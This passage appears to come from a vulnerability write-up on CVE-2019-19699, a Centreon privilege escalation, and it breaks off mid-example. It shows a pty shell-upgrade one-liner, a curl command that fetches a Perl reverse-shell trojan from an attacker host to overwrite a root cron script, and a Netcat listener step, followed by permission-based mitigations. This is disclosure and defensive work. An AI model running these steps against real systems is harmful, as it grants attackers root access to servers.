```python -c 'import pty; pty.spawn("/bin/sh")'```
This way, we can **_curl http://{local_ip}:{port}/centreon_autodisco.pl -o /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/centreon_autodisco.pl_** to replace the existing **centreon_autodisco.pl** with our _trojan_ Perl reverse shell

![](/content/spengesec/CVE-2019-19699/images/curl_rootshell.png)
  
Now the file file has been replaced, all there is left to do is start a **Netcat listener** on the port we have previously configured, and we will get a connection back from the server as user **Root**!

![](/content/spengesec/CVE-2019-19699/images/root.gif)
  
**Root system access has been successful!**

Now on to the notes on how we think the **privilege escalation** should be **mitigated**!

**Current settings in 19.10:**

```Cron:
#####################################
# Centreon Auto Discovery
#

30 22 * * * root ls -la --config='/etc/centreon/conf.pm' --config-extra='/etc/centreon/centreon_autodisco.pm' --severity=error >> /var/log/centreon/centreon_auto_discovery.log 2>&1
* * * * * centreon /opt/rh/rh-php72/root/usr/bin/php /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/hostDiscovery/HostDiscovery.php >> /var/log/centreon/centreon_host_discovery.log 2>&1

File Permissions:
-rwxr-xr-x 1 apache apache 173 Oct 11 11:09 /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/centreon_autodisco.pl
-rw-r--r-- 1 apache apache 7880 Oct 11 11:09 /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/hostDiscovery/HostDiscovery.php
-rwsrwxr-x 1 root root 7240 Aug 11  2017 /usr/lib/centreon/plugins/cwrapper_perl
```




**Mitigation for 
/usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/hostDiscovery/HostDiscovery.php**

```chown root:apache /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/hostDiscovery/HostDiscovery.php```

```chmod 755 /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/hostDiscovery/HostDiscovery.php```

```ls -la who```

-rwxr-xr-x 1 root apache 7880 Oct 11 11:09 /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/hostDiscovery/HostDiscovery.php

As you can see it is now owned by **Root**, group **apache** can **read and execute** it only, **centreon** can **execute** it only there for it does **not affect functionality**.



**Example:**

```bash-4.2$ whoami```

apache

```bash-4.2$ echo "hello" > /usr/share/centreon/www/modules/centreon-autodiscovery-server//cron/hostDiscovery/HostDiscovery.php```

```